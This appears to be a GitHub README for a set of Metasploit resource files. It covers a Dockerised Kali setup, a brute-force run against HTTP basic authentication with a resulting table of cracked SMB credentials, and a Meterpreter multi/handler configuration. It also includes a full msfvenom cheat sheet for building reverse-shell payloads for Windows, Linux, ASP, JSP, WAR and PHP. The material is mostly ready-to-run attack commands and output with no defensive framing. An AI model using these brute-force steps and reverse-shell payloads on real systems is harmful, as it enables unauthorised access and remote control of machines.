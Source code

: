 # Metasploit-resource-files

## Prepare a password list and a dictionary list
- [pass.list](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/pass.list)
- [uer.list](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/user.list)

## Setup docker container 
```sh
$ ./setup.sh
```

## Preparing metasploit resource file(.rc)
- [Brute force login to system using http basic authentication sample (http_basic.rc)](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/http_basic.rc)

## Run the exploit
```sh
$ ./exploit.sh kali_rolling http_basic.rc 2020_test_workspace
```

## Check result
```sh
$ docker exec -it kali_rolling msfconsole

msf6 > workspace
  2020_test_workspace
* default

msf6 > workspace 2020_test_workspace
msf6 > creds
==========
host           origin        service        public         private               realm  private_type  JtR Format
----           ------        -------        ------         -------               -----  ------------  ----------
172.21.121.2   172.21.121.2  445/tcp (smb)  mike           P@ssw0rd                     Password
172.21.121.2   172.21.121.2  445/tcp (smb)  michel         root                         Password
172.21.121.2   172.21.121.2  445/tcp (smb)  Administrator  admin                        Password
```

## Use the multi handler
##### Prepare file for [multi hander](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/resources/multihandler.rc.txt)
```
use exploit/multi/handler;
set payload windows/x64/meterpreter/reverse_https;
set LHOST 0.0.0.0;
set LPORT {{YOUR_PORT}};
run;
exit;
``` 
<details><summary>MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)</summary><div>

### Non-Meterpreter Binaries
```sh
# Staged Payloads for Windows
x86	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

# Stageless Payloads for Windows
x86	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

# Staged Payloads for Linux
x86	msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

# Stageless Payloads for Linux
x86	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
Non-Meterpreter Web Payloads
asp	msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
php	msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
### Meterpreter Binaries

```sh
# Staged Payloads for Windows
x86	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
# Stageless Payloads for Windows
x86	msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
x64	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
# Staged Payloads for Linux
x86	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
# Stageless Payloads for Linux
x86	msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
x64	msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
# Meterpreter Web Payloads
asp	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
jsp	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
war	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war
php	msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
</div></details>

##### Run
```sh
$ ./handler.sh resources/multihandler.rc.txt 8499

[+] Run container(msf_handler)...
[+] Recived IP(your host) is 172.28.68.51 and port tcp/8499
...
       =[ metasploit v6.2.11-dev                          ]
+ -- --=[ 2233 exploits - 1179 auxiliary - 398 post       ]
+ -- --=[ 867 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your
module, why not try the reload command

[-] Database not connected
[-] Database not connected
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_https
LHOST => 0.0.0.0
LPORT => 8499
[*] Started HTTPS reverse handler on https://0.0.0.0:8499

```
```sh
$ docker ps
CONTAINER ID   IMAGE                 COMMAND                  CREATED          STATUS          PORTS                    NAMES
bed4e81095da   kali/msfconsole:0.1   "msfconsole -x 'work…"   13 seconds ago   Up 12 seconds   0.0.0.0:8499->8499/tcp   msf_handler
6e0ab98754fe   kali/msfconsole:0.1   "/bin/sh -c 'service…"   8 days ago       Up 8 days                                kali_rolling
```
